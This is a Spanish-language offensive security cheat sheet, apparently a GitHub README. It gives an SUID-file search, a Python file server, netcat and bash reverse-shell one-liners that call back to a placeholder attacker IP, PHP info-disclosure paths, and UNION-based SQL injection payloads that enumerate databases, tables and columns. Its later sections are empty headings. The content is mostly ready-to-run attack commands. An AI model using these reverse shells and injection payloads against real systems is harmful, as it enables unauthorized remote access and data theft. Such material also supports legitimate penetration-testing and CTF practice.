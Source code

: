 # General-CheatSheet
[PayloadAllTheThinks](https://github.com/swisskyrepo/PayloadsAllTheThings) Lista de payloads y bypasses para Web Application Security.

## Linux Commands
### FIND
Listar los permisos SUID:

``` find  \-perm -4<PERMISOS> 2>/dev/null ```
### Python
Crear un servidor de python en mi máquina local:

``` python3 -m http.server <PORT> ```
### Reverse Shell
Se debe ejecutar en la máquina local primero alguna herramienta para poner en escucha el <PORT>,
como ejemplo usaremos **NetCat**: ```nc -lnvp <PORT>```

Y luego usar alguno de los siguientes comandos

``` nc -e /bin/bash <MY_IP> <PORT> ```

``` bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1 ```

``` bash -c "bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1" ```
## Information Disclose
### PHP
Archivos PHP con posible información sensible
```
/cgi-bin/phpinfo.php
/info.php
```
## SQL Injection
### List of Databases, Tables and Columns
Lista información de las bases de datos
> ' union select schema_name from information_schema.schemata-- -

Lista información de las tablas
> ' union select table_name from information_schema.tables where table_schema="<TABLE_NAME>"-- -

Lista información de las columnas
> ' union select column_name from information_schema.columns where table_schema=”<DB_NAME>” and table_name = '<TABLE_NAME>'-- -
### Error Based

## Server Site Template Injection (SSTI)
## Server Site Request Forgery (SSRF)
## Cross Site Request Forgery (CSRF)
## Cross Site Scripting (XSS)
### Reflect
### Store
### DOM


